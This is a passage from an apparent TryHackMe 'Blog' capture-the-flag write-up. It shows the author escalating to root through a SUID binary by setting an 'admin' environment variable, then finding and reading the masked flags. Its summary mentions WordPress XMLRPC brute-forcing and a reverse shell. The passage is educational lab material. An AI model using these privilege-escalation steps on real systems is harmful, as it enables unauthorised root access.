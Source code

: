 Let's use `ltrace` to see the workflow of the binary.

```bash
www-data@blog:/$ ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

So, the script check if we have a environment variable named `admin`, let's see how the script develops if we create a variable named `admin`.

```bash
www-data@blog:/$ export admin=admin
www-data@blog:/$ /usr/sbin/./checker          
root@blog:/# whoami
root
```

Somehow, we have gained a shell as `root`, so let's now read the `user.txt` and the `root.txt`.

```bash
root@blog:/root# cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```

Seems like we have to seek a bit to find the real `user.txx`.

```bash
root@blog:/root# find / -name user.txt 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

Bingo, the `user.txt` flag is stored at `/media/usb/user.txt`, let's read it.

```bash
root@blog:/root# cat /media/usb/user.txt
c842******e571f7af486******a8ab7
```

The `root.txt` flag is stored in the usual path at `/root/root.txt`, let's read it.

```bash
root@blog:/root# cat /root/root.txt
9a0******bef9bfa7ac28******f318
```

---
## Final Thoughts

The **Blog** machine on TryHackMe provides an excellent opportunity to practice **WordPress exploitation** and **Linux privilege escalation** techniques. The initial phase involves brute-forcing user credentials by abusing the enabled **XMLRPC** feature in WordPress, highlighting the risks of leaving unnecessary services exposed. Once access is gained, the machine demonstrates the exploitation of **WordPress 5.0** to upload a malicious image and execute a reverse shell, emphasizing the importance of keeping CMS software up to date. The privilege escalation phase requires reverse engineering a **SUID binary**, showcasing the need for secure coding practices and proper permission management. This machine effectively reinforces skills in **web application enumeration**, **password brute-forcing**, **reverse shell execution**, and **binary analysis**, making it a valuable learning experience for aspiring penetration testers.

![Desktop View](BlogPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

